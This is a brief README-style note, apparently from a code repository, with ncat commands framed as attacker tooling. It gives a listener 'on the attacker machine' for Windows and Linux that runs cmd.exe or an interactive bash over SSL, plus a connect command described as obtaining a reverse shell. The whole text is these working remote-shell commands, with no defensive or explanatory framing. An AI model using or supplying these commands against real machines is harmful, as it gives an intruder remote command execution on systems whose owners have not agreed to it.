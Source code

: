 ## Setup a Netcat listener on the attacker machine

Win: `ncat -lvp port -e cmd.exe --allow ip --ssl`  <br>
Linux: `ncat -lvp port -e '/bin/bash -i' --allow ip --ssl`

where `port` is any port number, and `ip` is the other machine IP.

## To obtain a reverse shell on the other machine

`ncat -v ip2 port --ssl`

where `port` is any port number, and `ip2` is the other machine IP.
